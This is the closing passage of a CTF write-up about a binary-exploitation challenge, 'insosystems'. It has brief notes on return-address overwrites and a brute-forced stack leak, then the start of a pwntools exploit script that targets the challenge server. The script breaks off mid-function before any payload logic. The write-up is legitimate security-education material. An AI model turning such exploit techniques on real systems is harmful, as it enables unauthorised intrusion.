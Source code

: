 Note that I also tried to overwrite the return address of the `upload_file`
function at the offset 0x1078, it worked on local but not on the remote
challenge :/  
Bonus: I managed to leak a stack address with a bit of bruteforce (1/32)
by overwriting the null byte at the end of `filename_hash` using the relative
write but it was not useful for our exploit.

# Appendix
The full exploit :
```py
#!/usr/bin/env python3

from pwn import *
import random
import hashlib

VERBOSE = True

exe = ELF("./insosystems")

libc = None
if args.REMOTE:
    # libc = ELF("./libc.so")
    libc = ELF("docker/libc.so.6")
else:
    libc = ELF("/path/to/libc.so.6")

context.binary = exe
context.terminal = ["tmux", "new-window"]


def conn():
    if args.REMOTE:
        r = remote("insosystems.insomnihack.ch", 31337)
        # r = remote("127.0.0.1", 31337)
    else:
        r = process([exe.path])

    return r

def attach_gdb():
    if args.GDB:
        gdb.attach(r, gdbscript="""
source ~/.gdbinit-gef.py
pie break 0x13bf
c
        """)

AUTH = 0
IS_LOGGED = 1
UPLOAD = 2
READ_FILE = 3
EXIT = 4

def pause():
    if args.GDB:
        input("pause")
    else:
        time.sleep(2)

def f(data):
    ret = b"|"
    for f in data:
```